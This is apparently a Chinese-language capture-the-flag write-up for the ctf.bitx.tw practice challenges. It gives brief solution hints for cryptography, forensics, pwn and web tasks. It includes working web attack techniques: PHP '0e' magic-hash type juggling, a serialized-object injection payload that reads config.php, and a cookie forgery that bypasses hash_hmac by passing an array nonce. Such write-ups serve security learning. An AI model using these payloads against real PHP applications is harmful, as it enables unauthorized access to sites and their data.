 # ctf.bitx.tw
# 適中題目
  - `Extract`: POST傳`answer`並且`md5(num1)`不可以`0e`開頭
  - `Cookie`: cookie為`帳號|md5(md5(帳號))`

# 水題
  - `Tcash`: 建立字母哈希表對映解出
  - `URLdecode`: 兩次編碼`FLAG`
  - `hash`: php '0e'
  - `Regular Expression`: `NTIHS{123456_Lol_fucK_}`
  - `Rockyou`: 利用`rockyou.txt`搭配`fcrackzip`

### 意義不大
  - `Easy Forensics`: `strings 1.jpg`
  - `Web Welcome`: `f12`
  - `QR code Repairer`: 小畫家修理他

## decoder水題
  - `Caesar`: a->n
  - `Morse`
  - `Rail Fence`: rail is `15`
  - `Substitution`: Substitution solver
  - `Transposition`: Transposition solver
  - `Base Family`: ascii85->base64->base58->base32
  - `base64`

### 意義不大
  - `ok`: ook decoder 
  - `hex`
  - `Binary`
  - `fuck???`: jsfuck，直接丟到js console執行即可
  - `Decimal`: dec to ascii
  - `pig pig`: pigpen-cipher 
  - `Music`: 頻譜圖
  - `KeyBoard`: 將鍵盤的字母連連看得到字母
  - `Easy Forensics2`: `xxd` 找到flag，沒辦法在第一瞬間用regex找到，因為有間隔

### robot
  - [step1](http://ctf.bitx.tw:10006/robots.txt)
  - [step2](http://ctf.bitx.tw:10006/here_is_fake_flag.html)

# RSA
  ```
  n = p * q = 1887367
  m = (c ^ d) % n
  ```

# pwn
 - `bof`: ~~少8就過~~，透過ret2plt的方法解決
 - `bof2`: ret2plt的方法解決
 - `pwntools`: 加減乘除，不要印出來運算過程，可以印出進度

# hash2
  編寫碰撞腳本，確保生成的hash值符合`^0+e[0-9]*$`，
用筆電(3.20 GHz)可以在一個小時左右或更快解出來。
  [flag](http://ctf.bitx.tw:10005/?md5=280289646&sha1=411837728&md6=721833251)

# Unserialize
  由於序列化的時候會包含`\0`與`*`，因此在輸出的時候直接透過php進行編碼，
比較不會出現問題，如果輸出之後透過其他工具編碼有機率出現問題。
  ``` php 
  <?php

  class HackMeIfYouCan
  {
      private $pandorasbox;
      function __construct() {
          $this->pandorasbox = new callme();
      }
  };

  class callme
  {
      protected $data = 'config.php';
  }

  $obj = new HackMeIfYouCan();


  echo urlencode(serialize($obj));
  ```
  輸入之後觀看原始碼含有flag

# cookie2
  程式碼使用`===`，因此無法透過碰撞的方式偽造hash值，傳入陣列使得產生金鑰的函數返回為空

  ``` php
  $flag = 'flag1';
  $nonce = array('null');
  echo urlencode('admin|' . hash_hmac('sha256', 'admin', ''));
  # 與下面等價
  # echo urlencode('admin|' . hash_hmac('sha256', 'admin', hash_hmac('sha256',$nonce, $flag)));
  ``` 
  修改玩cookie之後[享受](http://ctf.bitx.tw:10002/?nonce[]=thisisanonce)

# Picture Repairer
  透過`pngcheck`檢查錯誤，發現錯誤的IHDR數值，
  透過`vim -b 3.png`開啟檔案之後用`:%!xxd`檢視數據
  並且修正高度之後透過`:%!xxd -r`還原成二進位格式
  存檔後開啟看到flag
  
